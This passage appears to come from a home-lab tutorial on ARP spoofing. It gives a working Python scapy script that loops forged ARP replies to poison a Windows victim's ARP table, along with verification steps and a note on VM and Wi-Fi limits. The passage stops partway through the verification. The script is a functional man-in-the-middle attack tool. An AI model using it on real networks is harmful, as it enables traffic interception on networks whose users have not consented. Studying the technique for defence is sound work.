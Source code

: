To verify whether the spoofing is effective, we need to check the ARP table on the Windows machine. Open PowerShell as an administrator and run the following command:
``` shell
arp -a
```
This will display all the ARP table entries on the host.

![Desktop View](assets/img/arp/Screenshot 2024-12-02 at 20.31.25.png){: width="972" height="589" }

What we need to modify is only the MAC field in the packet structure. The following Python script achieves this using the `scapy` module:
```python
import time
from scapy.all import ARP, Ether, sendp

arp_packet = ARP(
    op = 2,     # ARP reply
    psrc = "192.168.1.108",         
    hwsrc = "d8:3a:dd:5a:bf:ae",    # Attacker's MAC address
    pdst="192.168.1.111", 
    hwdst="10:7c:61:61:f6:cd"
)

eth_packet = Ether(
    dst="10:7c:61:61:f6:cd",  
    src="d8:3a:dd:5a:bf:ae",        # Attacker's MAC address
    type=0x0806 
) / arp_packet

while True:
    sendp(eth_packet, verbose=1)
    time.sleep(2)
```

> If you perform ARP spoofing in a virtual machine (VM) with its network adapter set to bridge mode, Wireshark running inside the VM will show that the ARP packet's MAC address field is modified as expected. However, the victim will receive the host machine's MAC address instead of the VM's. This occurs because Wi-Fi client devices cannot send frames with multiple MAC addresses. The MAC address of the Wi-Fi adapter connected to the access point (AP) is used for all outgoing frames.To use a VM as a gateway, you must have either a dedicated Wi-Fi adapter assigned to the VM or a wired Ethernet connection for the host machine.
{: .prompt-warning }

After running this script, it will continuously send forged ARP packets into the LAN. When the victim receives these packets, it will overwrite the ARP table entry for the IP address `192.168.1.108` with the attacker's MAC address `d8:3a:dd:5a:bf:ae`. We can observe that the victim has received numerous forged ARP packets:

![Desktop View](assets/img/arp/Screenshot 2024-12-02 at 20.40.05.png){: width="972" height="589" }

Compared to the normal ARP packets sent by the Mac server to the victim, the only change is that the sender's MAC address has been replaced with the attacker's.

Checking the victim's ARP table:
